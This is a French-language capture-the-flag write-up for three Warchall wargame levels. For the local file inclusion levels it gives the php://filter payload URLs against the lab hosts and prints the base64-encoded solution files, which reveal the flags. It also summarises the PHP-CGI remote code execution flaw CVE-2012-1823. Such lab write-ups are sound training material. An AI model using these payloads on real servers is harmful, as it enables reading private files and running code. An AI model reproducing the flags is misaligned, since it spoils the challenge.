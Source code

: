 
## Niveau 14 - Warchall: Inclusion de fichiers locaux (LFI)
Utilisez le filtre PHP suivant pour lire et encoder le contenu du fichier "solution.php" en base64 :
- `php://filter/read=convert.base64-encode/resource=solution.php`

Accédez au point d'extrémité vulnérable : 
[https://lfi.warchall.net/index.php?lang=php://filter/read=convert.base64-encode/resource=solution.php](https://lfi.warchall.net/index.php?lang=php://filter/read=convert.base64-encode/resource=solution.php)

Décodez le contenu encodé en base64 ci-dessous pour révéler la solution.

Contenu encodé en base64 :
```c
PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K
```


## Niveau 15 - Warchall: Inclusion de fichiers locaux (RFI)
Utilisez le filtre PHP suivant pour lire et encoder le contenu du fichier "solution.php" en base64 :
- `php://filter/read=convert.base64-encode/resource=solution.php`

Accédez au point d'extrémité vulnérable : 
[https://rfi.warchall.net/index.php?lang=php://filter/read=convert.base64-encode/resource=solution.php](https://rfi.warchall.net/index.php?lang=php://filter/read=convert.base64-encode/resource=solution.php)

Décodez le contenu encodé en base64 ci-dessous pour révéler la solution.

Contenu encodé en base64 :
```c
PGh0bWw+Cjxib2R5Pgo8cHJlPk5PVEhJTkcgSEVSRT8/Pz88L3ByZT4KPC9ib2R5P
go8L2h0bWw+CgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgo
KCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKICAgICAgICAg
ICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAg
ICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAg
ICAgICAgICAgICAgICAgICA8P3BocCByZXR1cm4gJ0xvd19INE5HSU5HX0ZydWl0JzsgPz4K
```




## Niveau 20 - Warchall: Exécution de code à distance (RCE)

Ce défi implique l'exploitation d'une vulnérabilité spécifique, à savoir CVE-2012-1823 (Exécution de code à distance avec PHP-CGI).

**Vue d'ensemble de la vulnérabilité**

La vulnérabilité permet à un attaquant d'exécuter du code arbitraire via PHP-CGI en manipulant les paramètres qui lui sont passés. Plus précisément, l'ajout de paramètres comme ?-s à l'URL simule les paramètres PHP-CGI tels que /usr/bin/php53-cgi/php-cgi -f index.php -s.
